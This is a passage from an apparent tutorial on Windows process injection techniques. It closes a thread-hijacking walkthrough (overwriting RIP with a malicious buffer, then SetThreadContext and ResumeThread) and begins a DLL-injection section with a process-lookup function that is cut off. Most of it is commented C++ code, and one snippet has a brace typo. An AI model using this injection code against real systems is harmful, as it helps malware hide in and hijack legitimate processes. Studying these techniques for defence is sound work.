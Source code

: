 ```cpp
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```
Step eight, We need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. RIP is an x64 register that will determine the next code instruction, it controls the flow of an application in memory. To overwrite the register we can update th thread context for RIP
```cpp
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```
At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using `SetThreadContext` and the pointer for the context
```cpp
SetThreadContext{
	hThread, // Handle for the thread
	&context // Pointer to the context structure
}
```
At the final step, we can take the target thread out of a suspended state. To accomplish this we can use `ResumeThread`.
```cpp
ResumeThread(
	hThread // Handle for the thread
);
```
Compiling all these steps, creates a process injector via thread hijacking.

# DLL Injection
1. Locate a target process to inject
2. Open the target process
3. Allocate memory region for malicious DLL
4. Write the malicious DLL to allocated memory
5. Load and execute the malicious DLL
At step one. we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()` and `Process32Next()`
```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
		TH32CS_SNAPPROCESS, // Include all processes residing on the system
		0 // Indicates the current process
		);
    if (hSnapshot) {
	    PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
	    entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
			hSnapshot, // Handle of the snapshot
			&entry // Pointer to the PROCESSENTRY32 structure
			)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
					entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
					processName // Supplied process name
					)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry
					)); // Pointer to the PROCESSENTRY32 structure
        }
    }
```